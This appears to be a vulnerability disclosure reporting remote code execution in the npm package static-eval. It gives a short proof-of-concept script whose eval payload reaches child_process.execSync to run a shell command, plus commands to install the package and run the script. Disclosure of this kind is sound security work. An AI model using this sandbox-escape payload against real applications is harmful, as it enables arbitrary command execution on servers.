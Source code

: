 # Description

Remote Code Execution (RCE) in static-eval

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var evaluate = require('static-eval');
var parse = require('esprima').parse;

var src=(function (x) { return `${eval("console.log(global.process.mainModule.constructor._load('child_process').execSync('ls').toString())")}` })()
var ast = parse(src).body[0].expression;
evaluate(ast)
```

2. Execute the following commands in terminal:

```
npm i static-eval # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output using ls command before and after the execution
